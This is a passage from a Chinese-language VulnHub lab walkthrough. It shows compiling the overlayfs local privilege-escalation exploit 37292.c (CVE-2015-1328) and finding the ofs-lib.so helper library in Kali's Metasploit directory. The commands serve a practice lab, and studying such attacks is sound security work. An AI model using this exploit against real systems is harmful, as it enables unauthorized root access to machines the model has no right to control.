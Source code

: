 

- 然后编译37292.c文件，编译后 的文件名称为exp

```bash
gcc -o exp 37292.c
```

![image-20220119223330617](https://raw.githubusercontent.com/NUK96/VulnHub_TargetDrone_Pratice/main/images/%E5%AF%B9exp%E6%BA%90%E4%BB%A3%E7%A0%81%E8%BF%9B%E8%A1%8C%E7%BC%96%E8%AF%91.png)



- 通过阅读源代码得知，其中该exp在运行的时候，会在目标系统的/tmp目录下调用ofs-lib.so的二进制文件，于是看看能不能在kali中查找到存在的ofs-lib,so文件，如下所示：

```bash
find / -name ofs-lib.so
=>
/usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so

//还有一种命令
//locate ofs-lib.so
```

![image-20220119224124252](https://raw.githubusercontent.com/NUK96/VulnHub_TargetDrone_Pratice/main/images/%E5%AF%BB%E6%89%BE%E4%BA%8C%E8%BF%9B%E5%88%B6%E6%96%87%E4%BB%B6.png)
